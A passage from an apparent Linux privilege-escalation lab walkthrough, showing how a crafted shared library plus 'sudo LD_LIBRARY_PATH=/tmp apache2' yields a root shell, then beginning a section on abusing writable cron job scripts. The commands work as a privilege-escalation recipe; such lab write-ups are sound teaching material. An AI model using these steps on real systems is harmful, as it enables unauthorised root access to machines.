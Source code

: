 ```

```
echo "void pcre_free(){}" >> /home/user/tools/sudo/library_path.c
```
Before our new `sudo` attempt we have to use the code in `library_path.c` with the new `libpcre.so.3` shared file:

```
gcc -o /tmp/libpcre.so.3 -shared -fPIC /home/user/tools/sudo/library_path.c
```

Running `apache2` with `sudo` using the `LD_LIBRARY_PATH` should now successfully spawn a root shell:

```
sudo LD_LIBRARY_PATH=/tmp apache2
```

![image](https://user-images.githubusercontent.com/14150485/172322578-c461bb11-428b-4c9f-be67-feff7deea65a.png)

<br/>

### 7.1: Read and follow along with the above.

```
No answer needed
```

<br />
<br />

## 8. Cron Jobs - File Permissions

<br />

Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. Cron table files (crontabs) store the configuration for cron jobs. The system-wide crontab is located at `/etc/crontab`.

<br />

We can read through the contents of this file to see the jobs running on the target machine.

```
cat /etc/crontab
```

![image](https://user-images.githubusercontent.com/14150485/172329760-0bb0d5b0-11a9-4afe-b1d2-b2674bf33638.png)

The `overwrite.sh` and `compress.sh` jobs have been scheduled to run every minute, something we can take advantage of to gain access to this machine. Let us `locate` the first file.

```
locate overwrite.sh
```

![image](https://user-images.githubusercontent.com/14150485/172330777-ed0a7342-49a4-4712-a9cd-f29480b91ce9.png)

```
la -la /usr/local/bin/overwrite.sh
```

```
